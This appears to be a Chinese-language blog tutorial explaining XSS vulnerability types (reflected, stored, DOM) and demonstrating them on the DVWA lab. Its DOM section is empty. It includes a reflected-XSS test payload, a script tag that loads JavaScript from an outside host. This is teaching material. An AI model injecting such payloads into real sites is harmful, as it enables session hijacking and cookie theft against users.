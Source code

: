 以往，XSS跨站脚本一直被当做是一类鸡肋漏洞没有什么好利用的地方，只能弹出对话框而已，稍微有点危害的就是用来盗取用户Cookies资料和网页挂马。另外通常情况下，我们通过注入alert(/XSS/)之类的JavaScript代码，实际上并没有反映其危害性，只是证明其存在性。

相较而言，乙方对于XSS确实没有引起足够高的重视。诚然，XSS不如SQL注入、文件上传等直接获取较高权限，甚至getshell；但是它的运用方式相当灵活，构造的恶意代码也多式多样，只要开拓思维，适当结合其他技术一起运用，XSS的危害还是很大的。

## XSS漏洞的类型

那么XSS到底有哪几种类型呢

可以分为两种类型：

- 非持久性攻击
- 持久性攻击

非持久型XSS攻击：顾名思义，非持久型XSS攻击是一次性的，仅对当次的页面访问产生影响。非持久型XSS攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

持久型XSS攻击：持久型XSS，会把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在。

当然我们也可以划分为如下三种类型：

- 反射型XSS,经过后端，不经过数据库
- 存储型XSS,经过后端，经过数据库
- DOM型XSS,不经过后端，基于文档对象模型(DOM),通过传入参数修改DOM结构，从而浏览器解析执行脚本

这里我们利用DVWA来分别对反射型和存储型XSS进行验证。

### 反射型XSS

在输入框输入可执行的JavaScript脚本，这里远程加载JavaScript，测试代码如下:


```javascript
<script src= http://victorsec.top/xss.js></script>
```

![][5]

反射型XSS,不会持久，构造的Payload也只会执行一次。

反射型 XSS 的数据流向是：浏览器 -> 后端 -> 浏览器

### 存储型XSS

存储型XSS,顾名思义就是将恶意代码存储到数据库中，只要访问页面，恶意代码即可执行。由此可以看出，存储型XSS的危害就比反射型XSS大很多。我们依然利用DVWA的存储XSS漏洞，输入测试代码如下：

![][6]

点击执行，会将Payload存储到数据库中，每次刷新页面都会执行恶意脚本。

![][7]

我们可以看出，存储行 XSS 的数据流向是：
浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器。

### DOM XSS


[1]: {{ '/web/resources/xss1.png' | prepend: site.baseurl  }}
[2]: {{ '/web/resources/xss2.png' | prepend: site.baseurl  }}
[3]: {{ '/web/resources/xss3.png' | prepend: site.baseurl  }}
[4]: {{ '/web/resources/xss4.png' | prepend: site.baseurl  }}
[5]: {{ '/web/resources/xss5.png' | prepend: site.baseurl  }}
[6]: {{ '/web/resources/xss6.png' | prepend: site.baseurl  }}
[7]: {{ '/web/resources/xss7.png' | prepend: site.baseurl  }}
[8]: {{ '/web/resources/xss8.png' | prepend: site.baseurl  }}
[9]: {{ '/web/resources/xss9.png' | prepend: site.baseurl  }}
[10]: {{ '/web/resources/xss10.png' | prepend: site.baseurl  }}
[11]: {{ '/web/resources/xss11.png' | prepend: site.baseurl  }}
[12]: {{ '/web/resources/xss12.png' | prepend: site.baseurl  }}
[13]: {{ '/web/resources/xss13.png' | prepend: site.baseurl  }}
[14]: {{ '/web/resources/xss14.png' | prepend: site.baseurl  }}
[15]: {{ '/web/resources/xss15.png' | prepend: site.baseurl  }}
[16]: {{ '/web/resources/xss16.png' | prepend: site.baseurl  }}
[17]: {{ '/web/resources/xss17.png' | prepend: site.baseurl  }}
[18]: {{ '/web/resources/xss18.png' | prepend: site.baseurl  }}
[19]: {{ '/web/resources/xss19.png' | prepend: site.baseurl  }}
[20]: {{ '/web/resources/xss20.png' | prepend: site.baseurl  }}
[21]: {{ '/web/resources/xss21.png' | prepend: site.baseurl  }}